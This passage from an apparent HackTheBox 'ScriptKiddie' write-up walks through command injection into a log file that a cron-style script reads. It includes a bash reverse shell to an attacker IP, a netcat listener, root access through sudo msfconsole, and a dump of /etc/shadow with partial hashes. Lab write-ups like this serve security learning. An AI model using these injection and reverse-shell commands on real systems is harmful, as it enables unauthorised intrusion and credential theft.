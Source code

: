 Explanation of what we're seeing. cat $log, is reading input from /home/kid/logs/hackers file (which our current user has access to). cut -d ' ' will count each space (' ') as the end of a field, and -f3- will output the 3rd field and anything after it (e.g. cutting out everything before the second space).


I see this example in home/kid/html/hackers (the method for initiating a reverse shell), I just need to get this into /home/kid/logs/hackers, so that scanlosers.sh does its 'cat $log' read, thus initiating the reverse shell, as user 'pwn'. 
```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.16/4545 0>&1' #
```

Remember that thing about delimiters we looked at previously? If I don't pad this with 3 spaces, it's going to cut out the 'bin/bash -c 'bash' part of our command. So we've got some leading spaces here:
```bash
echo "   ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.111/8990 0>&1' #" >> hackers
```

We can see that the reverse-shell picked up, as pwn.
What can I run as root? Oh, metasploit? You don't say:
```bash
┌──(root💀kali)-[/home/ghohst/Documents/HTB/scriptk]
└─# nc -lvnp 8990
listening on [any] 8990 ...
connect to [10.10.14.111] from (UNKNOWN) [10.10.10.226] 52940
bash: cannot set terminal process group (871): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
pwn@scriptkiddie:~$ 
```

Since we're essentially an escalated shell from here, we just cat root/root.txt for the final flag.

# Extra Credit
I did, also, cat /etc/shadow so I can smash the user passwords if I wanted to. If for whatever reason I was unable to gather the flag right away and needed to SSH back into the machine, I could potentially crack these and go that route as our foothold.
```bash
msf6 > cat /etc/shadow
stty: 'standard input': Inappropriate ioctl for device
[*] exec: cat /etc/shadow

 - clipped -
root:$6$RO4wVQ99999:7:::
kid:$6$t9Jp99999:7:::
pwn:$6$Ci5SpF8qatWsg9:7:::
```bash